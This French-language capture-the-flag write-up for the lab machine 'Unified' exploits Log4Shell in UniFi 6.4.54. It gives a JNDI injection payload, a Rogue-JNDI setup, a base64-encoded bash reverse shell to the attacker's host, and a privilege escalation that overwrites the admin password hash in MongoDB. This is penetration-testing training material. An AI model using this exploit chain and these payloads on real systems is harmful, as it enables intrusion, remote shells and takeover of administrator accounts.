 # Unified Write-up

## Introduction

Ce write-up explore les effets de l'exploitation de Log4J dans un système de surveillance de réseau bien connu appelé "UniFi". Cette machine vous montrera comment configurer et installer les packages et outils nécessaires pour exploiter UniFi en abusant de la vulnérabilité Log4J et en manipulant un en-tête POST appelé remember, vous donnant un shell inverse sur la machine. Vous changerez également le mot de passe de l'administrateur en modifiant le hash sauvegardé dans l'instance MongoDB qui fonctionne sur le système, ce qui permettra l'accès au panneau d'administration et mènera à la divulgation du mot de passe SSH de l'administrateur.

## Énumération

La première étape consiste à scanner l'adresse IP cible avec Nmap pour vérifier quels ports sont ouverts. Nous utiliserons Nmap pour cela.

- **Commande** : `nmap -sC -sV -v {TARGET_IP}`

Le scan révèle que le port 8080 est ouvert et qu'un proxy HTTP y est en cours d'exécution. Le proxy semble rediriger les requêtes vers le port 8443, qui semble faire fonctionner un serveur web SSL. Nous notons que le titre de la page HTTP sur le port 8443 est "UniFi Network".

En accédant à la page avec un navigateur, nous sommes présentés avec la page de connexion au portail web UniFi et la version est 6.4.54. Une recherche rapide sur Google avec les mots-clés "UniFi 6.4.54 exploit" révèle un article qui discute en profondeur de l'exploitation de la vulnérabilité CVE-2021-44228 au sein de cette application.

Pour en savoir plus sur la vulnérabilité Log4J, vous pouvez consulter ces liens :
- [Sprocket Security Blog](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi)
- [NVD CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [Hack The Box Blog](https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation)

## Exploitation

La vulnérabilité Log4J peut être exploitée en injectant des commandes système (OS Command Injection), une vulnérabilité de sécurité web qui permet à un attaquant d'exécuter des commandes arbitraires sur le serveur exécutant l'application. Pour vérifier cela, nous pouvons utiliser FoxyProxy après avoir effectué une requête POST au point de terminaison `/api/login` pour passer la requête à BurpSuite, qui l'interceptera en tant qu'homme du milieu. La requête peut alors être modifiée pour injecter des commandes.

Nous tentons de nous connecter à la page avec les identifiants test:test pour capturer la requête de connexion avec BurpSuite et la modifier. Nous envoyons ce paquet HTTPS au module Repeater de BurpSuite en appuyant sur CTRL+R.

L'article mentionné indique que nous devons entrer notre payload dans le paramètre remember. Le POST est envoyé en tant qu'objet JSON et parce que le payload contient des accolades `{}`, pour éviter qu'il ne soit analysé comme un autre objet JSON, nous l'encadrons avec des guillemets pour qu'il soit analysé en tant que chaîne de caractères.

Nous saisissons le payload dans le champ remember pour identifier un point d'injection, s'il en existe un. Si la requête provoque une connexion du serveur vers nous, cela signifie que l'application est vulnérable.

### Utilisation de JNDI et LDAP

JNDI (Java Naming and Directory Interface API) est utilisé pour localiser des ressources et d'autres objets de programme. LDAP (Lightweight Directory Access Protocol) est un protocole standard pour accéder et maintenir des services d'information de répertoire distribués.

Nous construisons un payload :

- **Payload** : `${jndi:ldap://{Your Tun0 IP}/whatever}`

Ensuite, nous démarrons `tcpdump` pour surveiller le trafic réseau sur le port 389 :

- **Commande** : `sudo tcpdump -i tun0 port 389`

Après avoir cliqué sur "Send" dans BurpSuite, nous observons que l'application se connecte à notre machine, prouvant sa vulnérabilité.

### Installation des outils nécessaires

Nous devons installer Open-JDK et Maven pour construire un payload et obtenir une exécution de code à distance (RCE) sur le système vulnérable.

- **Commande** : `sudo apt-get install openjdk-11-jdk maven`

Ensuite, nous clonons et construisons l'application Rogue-JNDI :

- **Commande** : `git clone https://github.com/veracode-research/rogue-jndi`
- **Commande** : `cd rogue-jndi`
- **Commande** : `mvn package`

### Construction du Payload

Nous construisons notre payload en l'encodant en Base64 :

- **Commande** : `echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64`

Nous démarrons ensuite l'application Rogue-JNDI avec notre payload :

- **Commande** : `java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP}"`

Nous démarrons un écouteur Netcat :

- **Commande** : `nc -lvp 4444`

Enfin, nous modifions la requête interceptée dans BurpSuite pour inclure notre payload JNDI et l'envoyons. Nous obtenons un shell sur notre écouteur Netcat et nous pouvons améliorer notre shell :

- **Commande** : `script /dev/null -c bash`

le flag user est dans

- **Commande** : `cd /home/michael`
- **Commande** : `cat user.txt`

## Escalade de Privilèges

Nous devons vérifier si MongoDB est en cours d'exécution sur le système cible, car cela pourrait nous permettre d'extraire les identifiants de l'administrateur pour nous connecter au panneau d'administration.

- **Commande** : `ps aux | grep mongo`

MongoDB est en cours d'exécution sur le port 27117. Nous utilisons l'utilitaire en ligne de commande mongo pour interagir avec MongoDB et extraire le mot de passe de l'administrateur :

- **Commande** : `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

La sortie révèle un utilisateur appelé Administrator avec un hash de mot de passe dans la variable x_shadow. Nous remplaçons ce hash par le nôtre en utilisant la commande mkpasswd pour créer un nouveau hash SHA-512 :

- **Commande** : `mkpasswd -m sha-512 Password1234`

Ensuite, nous mettons à jour le hash dans MongoDB :

- **Commande** : `mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'`

Nous nous connectons maintenant à l'interface web d'UniFi avec les nouvelles informations d'identification administrateur. L'accès est réussi et nous accédons aux paramètres d'authentification SSH.

Le mot de passe root SSH est affiché en clair : `NotACrackablePassword4U2022`. Nous utilisons ce mot de passe pour nous connecter en SSH :

- **Commande** : `ssh root@10.129.96.149`

Le flag root peut être trouvé dans le dossier /root :

- **Commande** : `cd /root`
- **Commande** : `ls`
- **Commande** : `cat root.txt`

Félicitations, vous avez terminé la machine Unified !
